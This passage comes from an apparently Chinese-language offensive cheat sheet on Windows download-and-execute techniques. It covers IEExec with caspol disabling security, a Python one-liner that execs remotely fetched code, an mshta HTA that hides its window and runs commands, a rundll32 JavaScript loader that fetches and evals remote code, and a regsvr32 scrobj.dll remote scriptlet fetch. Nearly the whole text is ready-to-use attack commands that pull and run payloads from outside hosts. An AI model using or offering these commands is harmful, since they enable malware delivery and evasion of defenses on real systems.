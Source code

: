#### 3.8 IEExec

```
C:\Windows\Microsoft.NET\Framework\v2.0.50727> caspol -s off

C:\Windows\Microsoft.NET\Framework\v2.0.50727> IEExec http://192.168.3.1/test.exe
```

#### 3.9 Python

```
C:\python27\python.exe -c “import urllib2; exec urllib2.urlopen(‘http://192.168.3.1/test.zip’).read();”
```

#### 3.10 Mshta

mshta http://192.168.3.1/run.hta
run.hta 内容如下：

```
<HTML> 
<meta http-equiv="Content-Type" content="text/html; charset=utf-8">
<HEAD> 
<script language="VBScript">
Window.ReSizeTo 0, 0
Window.moveTo -2000,-2000
Set objShell = CreateObject("Wscript.Shell")
objShell.Run "cmd.exe /c net user" // 这里填写命令
self.close
</script>
<body>
demo
</body>
</HEAD> 
</HTML>
mshta vbscript:Close(Execute("GetObject(""script:http://webserver/payload.sct"")"))
```

#### 3.11 Rundll32

依赖于 WScript.shell 这个组件:

```
rundll32.exe javascript:"\..\mshtml,RunHTMLApplication ";document.write();h=new%20ActiveXObject("WinHttp.WinHttpRequest.5.1");h.Open("GET","http://127.0.0.1:8081/connect",false);try{h.Send();b=h.ResponseText;eval(b);}catch(e){new%20ActiveXObject("WScript.Shell").Run("cmd /c taskkill /f /im rundll32.exe",0,true);}%
```

#### 3.12 Regsvr32

Regsvr32 命令用于注册 COM 组件，是 Windows 系统提供的用来向系统注册控件或者卸载控件的命令，以命令行方式运行。

WinXP 及以上系统的 regsvr32.exe 在 windows\system32 文件夹下；2000 系统的 regsvr32.exe 在 winnt\system32 文件夹下。

```
regsvr32 /u /s /i:http://192.168.3.1/test.data scrobj.dll
```
